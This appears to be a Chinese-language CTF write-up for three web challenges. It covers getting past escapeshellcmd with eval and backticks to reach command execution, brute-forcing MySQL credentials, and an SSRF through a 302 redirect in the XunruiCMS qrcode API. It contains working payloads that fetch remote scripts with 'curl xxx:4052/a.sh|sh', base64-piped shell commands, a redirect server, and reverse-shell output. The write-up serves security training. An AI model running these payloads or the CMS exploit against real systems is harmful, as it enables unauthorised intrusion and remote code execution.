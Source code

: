 # Simple_php
	- 思路
		- 使用eval执行任意字符串，使用反引号绕过关键字检测，实现RCE
		- 爆破服务器数据库账号密码，正向代理连接拿flag
	- 实现RCE
		- 服务器会使用`escapeshellcmd`转义命令中的特殊字符，输入的特殊字符会被当成字符串的一部分
		- bash中的`eval`可以将任意字符串作为命令执行，可以用来绕过这个限制
		- 此时在使用反引号时，`escapeshellcmd`加上的反斜杠会被bash解析掉，最后将不带有反斜杠的反引号传给`eval`
		- 所以可以使用这样的payload实现RCE
			- ```bash
			  eval l``s
			  ```
		- 然后配合base64即可实现反弹shell
			- ```python
			  url = "http://eci-2zeflmaf18uscclpyfy6.cloudeci1.ichunqiu.com/"
			  r = base_post(url, data={"cmd": "eval ec``ho 把要执行的命令编码后放在这里|base6``4 -d|s``h|s``h"})
			  print(r.text)
			  
			  ```
	- 拿到flag
		- 检查了根目录和环境变量，发现没有flag
		- 查看进程发现有mysql
		- 使用fscan爆破mysql的密码，可以得到用户名和密码均为`root`
		- 连接上数据库即可拿到flag
			- ```
			  mysql> use PHP_CMS
			  Reading table information for completion of table and column names
			  You can turn off this feature to get a quicker startup with -A
			  
			  Database changed
			  mysql> show tables;
			  +-------------------+
			  | Tables_in_PHP_CMS |
			  +-------------------+
			  | F1ag_Se3Re7       |
			  +-------------------+
			  1 row in set (0.15 sec)
			  
			  mysql> select * from F1ag_Se3Re7
			      -> ;
			  +----+--------------------------------------------+
			  | id | f1ag66_2024                                |
			  +----+--------------------------------------------+
			  |  1 | flag{b485423a-e068-48e9-9e4b-257a1b5a484c} |
			  +----+--------------------------------------------+
			  1 row in set (0.14 sec)
			  ```
	- 施工过程
		- fuzz
			- 不会被escapeshellcmd转义的字符
				- ```python
				  [" ","!","%","+",",","-",".","/",":","=",]
				  # 还有数字和大小写字符
				  ```
			- 可用payload
				- uname
				- `uname -a`
				- `base32 --version`
				- `base32 /proc/net/arp`
					- 可以用来读取文件
					- 类似的: `basenc`
				- `install /proc/net/arp arp`可以用来复制文件
					- 网站目录没有写入权限
				- `ln -s current .`
				- `du /etc --max-depth=1 -a -h`
					- 可以用来查看文件夹
				- `eval uname`
					- ```shell
					  eval l``s
					  ```
					- 可以绕过WAF！
		- RCE
			- 传入任意`base64`并解码执行
			- ```python
			  url = "http://eci-2zedpvk47flcn04c33i5.cloudeci1.ichunqiu.com"
			  r = base_post(url, data={"cmd": "eval ec``ho Y3VybCB4eHg6NDA1Mi9hLnNo|base6``4 -d|s``h|s``h"})
			  print(r.text)
			  ```
- # easycms
	- 扫描
		- `/flag.php`
			- 提示`Just input 'cmd' From 127.0.0.1`
			- 尝试Header伪造不成功，所以应该是SSRF的洞
		- `/Readme.txt`
			- 提示是`迅睿CMS`
	- 到Github上下载源码
		- https://github.com/dayrui/xunruicms
	- 全局搜索`curl_init`，看到`dr_catcher_data`函数含有发送HTTP请求的功能
	- 全局搜索`dr_catcher_data`，看到`Api::qrcode`这个含有其的调用
	- 首先尝试构造请求，发现`127.0.0.1`和`localhost`被禁止，提示`ip不正确`
		- ```python
		  params = {
		      "s": "api",
		      "c": "api",
		      "m": "qrcode",
		      "text": "123",
		      "thumb": "http://localhost:8080/",
		  }
		  
		  r = base_get(url, params=params)
		  print(r.text)
		  with open("out.png", "wb") as f:
		      f.write(r.content)
		  ```
	- 然后尝试构造302跳转，绕过localhost关键字检测
		- 写一个flask服务端部署到VPS上，用于构造恶意302跳转
			- ```python
			  from flask import Flask, redirect
			  from urllib.parse import quote
			  
			  app = Flask(__name__)
			  
			  @app.route("/")
			  def index():
			      return redirect("http://127.0.0.1/flag.php?cmd=" + quote("curl xxx:4052/a.sh|sh"), code=302)
			  
			  if __name__ == "__main__":
			      app.run(port=4053)
			  ```
		- 然后发送恶意请求到`Api::qrcode`
			- ```python
			  params = {
			      "s": "api",
			      "c": "api",
			      "m": "qrcode",
			      "text": "123",
			      "thumb": "http://xxx:4053/",
			  }
			  
			  r = base_get(url, params=params)
			  print(r.text)
			  with open("out.png", "wb") as f:
			      f.write(r.content)
			  ```
		- 这样就可以实现RCE，实际执行的命令由上面的flask服务端发出
	- 最后利用RCE获得反弹shell，拿flag即可
		- ```text
		  meterpreter > shell
		  Process 581 created.
		  Channel 1 created.
		  ls /
		  bin
		  boot
		  dev
		  etc
		  flag
		  home
		  lib
		  lib32
		  lib64
		  libx32
		  media
		  mnt
		  opt
		  proc
		  readflag
		  root
		  run
		  sbin
		  srv
		  sys
		  tmp
		  usr
		  var
		  /readflag
		  flag{62a1b2cd-a58d-4c29-a693-86492a7e4c20}
		  
		  ```
- # easycms_revenge
	- 流程和easycms一样，但是返回302跳转时需要返回一些内容绕过图像检测
	- 首先准备一个VPS（假设IP为xxx），然后在上面放一个php文件用来返回302
		- ```php
		  <?php
		  header("location: http://127.0.0.1/flag.php?cmd=curl http://xxx:4052/text.b64 | base64 -d | sh");
		  echo "#define width 1234\n";
		  echo "#define height 1234";
		  ```
	- 然后在`text.b64`里放base64编码的反弹shell payload，让目标执行
	- 最后打上去，触发SSRF
		- ```python
		  params = {
		      "s": "api",
		      "c": "api",
		      "m": "qrcode",
		      "text": "1143",
		      # "thumb": "http://df050505.2ac2b0b5.rbndr.us:4052/flag.php?cmd=" + encoder.urlencode("sleep 5;"),
		      "thumb": "http://xxx:4052/",
		  }
		  r = base_get(url, params=params)
		  print(r.text)
		  ```
		- ```text
		  MP > shell
		  Process 501 created.
		  Channel 0 created.
		  /readflag
		  flag{cff2c6eb-58b5-4cd7-8faf-188fe1fd9997}
		  ```